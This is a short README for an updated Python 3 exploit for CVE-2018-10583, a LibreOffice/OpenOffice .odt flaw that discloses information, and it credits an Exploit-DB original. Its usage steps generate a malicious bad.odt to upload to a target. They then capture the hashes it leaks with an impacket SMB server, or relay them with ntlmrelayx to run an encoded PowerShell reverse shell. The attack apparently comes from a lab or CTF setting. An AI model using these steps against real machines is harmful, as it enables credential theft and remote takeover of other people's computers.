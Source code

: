 # Updated python3 exploit for [CVE-2018-10583](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10583) (LibreOffice/Open Office - '.odt' Information Disclosure)
> original credits to : https://www.exploit-db.com/exploits/44564
## Usage
1. Install ezodf module with `pip` or `pip3`
2. Run the exploit with `python3` it will generate a bad.odt file, upload it to the box
3. And then listen for requests to your smb server `impacket-smbserver share share -smb2support` or `sudo impacket-ntlmrelayx --no-http-server -smb2support -t <your_ip>
-c "powershell -enc <one liner rever shell>"`
